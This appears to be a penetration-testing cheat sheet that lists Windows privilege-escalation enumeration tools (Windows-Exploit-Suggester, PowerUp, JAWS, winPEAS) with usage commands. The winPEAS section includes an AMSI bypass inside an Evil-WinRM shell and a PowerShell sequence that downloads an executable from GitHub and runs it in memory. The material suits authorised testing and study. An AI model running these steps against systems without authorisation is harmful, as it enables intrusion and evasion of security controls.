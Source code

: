 

### Tools


#### Windows-Exploit-Suggester

* [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
$ python -u windows-exploit-suggester.py -d 2020-09-02-mssb.xls -i systeminfo.txt --ostext 'windows 10 64-bit' --hotfixes hotfixes.txt | tee out.txt
```


#### PowerUp

* [https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
* [https://recipeforroot.com/advanced-powerup-ps1-usage/](https://recipeforroot.com/advanced-powerup-ps1-usage/)

```
PS > Invoke-PrivescAudit
```


#### JAWS

* [https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1)

```
PS > .\jaws-enum.ps1 -OutputFileName out.txt
```


#### winPEAS

* [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)

Run from memory:

```
*Evil-WinRM* PS > menu
*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > Invoke-Binary winPEASany.exe quiet log
Or
PS > [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
PS > $url = "https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe"
PS > $wp = [System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
PS > [winPEAS.Program]::Main("quiet log")
```
